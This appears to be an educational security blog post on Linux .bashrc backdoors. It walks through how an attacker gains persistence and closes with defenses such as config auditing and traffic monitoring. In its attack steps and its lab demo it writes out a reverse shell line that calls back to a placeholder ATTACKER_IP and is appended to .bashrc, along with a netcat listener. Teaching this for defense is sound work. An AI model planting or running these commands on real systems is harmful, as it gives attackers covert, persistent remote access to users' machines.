```yaml
---
title : "Linux Backdoors"
date : 2025-06-25
layout : post
categories : [BACKDOOR]
tags : [BASHRC, BACKDOOR, PERSISTENCE, LINUX]
author : jana
---
```


# Bashrc Backdoors: Persistence Through a Hidden Terminal Trap

Hey cybersecurity folks! 👋  

Welcome back to another episode of **“What did the attacker leave behind?”** 🎭  
Today, we’re exploring a stealthy persistence trick attackers love to hide in plain sight: **the `.bashrc` backdoor**.

Why is it dangerous? Because it blends in with everyday shell configuration files — the ones users *trust* but rarely inspect.  

Whether you’re sharpening red team skills, brushing up on blue team defenses, or just geeking out over elegant persistence, this one’s for you. 🚀  

---

## 🔍 What Is a Bashrc Backdoor?

A **bashrc backdoor** is a persistence method that abuses the `.bashrc` file — the script Bash runs every time a new **interactive shell** is launched.  

Attackers append a reverse shell payload to it, so whenever the user opens a terminal, the system silently connects back to the attacker.  

It’s like leaving a bug in someone’s coffee cup: subtle, invisible, and only activated when they take a sip. ☕🐛  

---

## 🧠 Understanding `.bashrc`

- Location: `~/.bashrc` (per user)  
- Executes: whenever a **non-login interactive shell** starts  
- Usual purpose: aliases, prompt tweaks, environment variables  
- Hidden danger: it can run **any shell command**, even malicious ones  

That flexibility makes `.bashrc` a perfect persistence target.  

---

## 🧰 The Attack: Step-by-Step

Here’s how an attacker might weaponize `.bashrc`:  

### ✅ Step 1: Initial Access  
The attacker first compromises the system (via exploit, weak creds, phishing, etc.).  

### ✅ Step 2: Payload Injection  
They append a reverse shell payload to the target user’s `.bashrc`:  

\`\`\`bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> /home/alice/.bashrc
\`\`\`

Every time **Alice** opens a terminal, the reverse shell fires.  

### ✅ Step 3: Listener Setup  
On the attacker’s machine:  

\`\`\`bash
nc -lvnp 4444
\`\`\`

Netcat listens for incoming connections.  

### ✅ Step 4: Trigger  
Hours later, Alice logs in and opens a shell.  

💥 Boom — instant reverse shell connection for the attacker.  

---

## 🔁 Attack Flow Recap

| Step              | Action                                           |
|-------------------|-------------------------------------------------|
| 🎯 Initial Access | Attacker compromises target                     |
| 🐚 Inject Shell   | Reverse shell added to `.bashrc`                |
| 🎧 Listener       | Netcat listening on attacker’s machine           |
| 🔓 Trigger        | User opens terminal, payload executes           |
| 🧠 Access Regained| Attacker reconnects as that user                 |

---

## 🕵️ Why It’s Sneaky  

✅ Blends into a legitimate config file  
✅ Doesn’t create new files or binaries  
✅ Triggers only on user interaction  
✅ Often overlooked during forensics  

For sysadmins or developers who open terminals all day, this trick is especially effective.  

---

## 🧪 Lab Example (Safe Demo)

**On attacker machine:**  
\`\`\`bash
nc -lvnp 4444
\`\`\`

**On target machine:**  
\`\`\`bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' >> ~/.bashrc
bash
\`\`\`

➡️ Reverse shell pops to the attacker as soon as the victim starts Bash.  

---

## ⚠️ Limitations  

- ❌ Only works when the user opens a shell  
- ❌ Easy to spot if `.bashrc` is inspected  
- ❌ Breaks if user switches shells (e.g., zsh, fish)  
- ❌ Detected by file integrity monitoring tools  

---

## 🛡️ Defense Strategies  

- **Audit Config Files:**  
  Regularly check `.bashrc`, `.profile`, `.bash_profile` for strange entries  
  Use integrity monitoring tools (AIDE, Tripwire, etc.)  

- **Monitor Network Traffic:**  
  Flag unusual outbound connections, especially from `bash` or `nc` processes  

- **User Awareness:**  
  Train users to report slow logins, weird prompts, or unexplained network activity  

---

## 🧠 Final Thoughts  

The `.bashrc` backdoor is simple, elegant, and effective. It requires no malware, no rootkits, just a clever abuse of Linux behavior.  

- For red teamers: a useful persistence trick.  
- For defenders: a reminder that **configuration files are attack surfaces too**.  
- For learners: an eye-opening way to understand subtle persistence methods.  

---

⚠️ **Disclaimer:** This post is for **educational purposes only**. Do not test these techniques on systems you do not own or have explicit permission to assess.  

Stay curious. Stay ethical. And always check your `.bashrc`. 😉  

